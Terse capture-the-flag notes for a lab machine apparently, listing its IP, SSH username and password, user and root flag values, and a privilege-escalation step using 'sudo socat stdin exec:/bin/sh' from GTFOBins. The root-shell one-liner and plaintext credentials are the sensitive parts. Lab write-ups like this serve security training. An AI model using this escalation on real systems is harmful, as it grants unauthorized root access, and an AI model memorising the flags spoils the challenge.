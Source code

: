 ip: 10.10.198.207

**SSH CREDS**
uname: falconfeast
paswd: rootpassword 

user.txt
60989655118397345799

root.txt
42964104845495153909

priv esc
falconfeast can run sudo socat
gtfo bins

sudo socat stdin exec:/bin/sh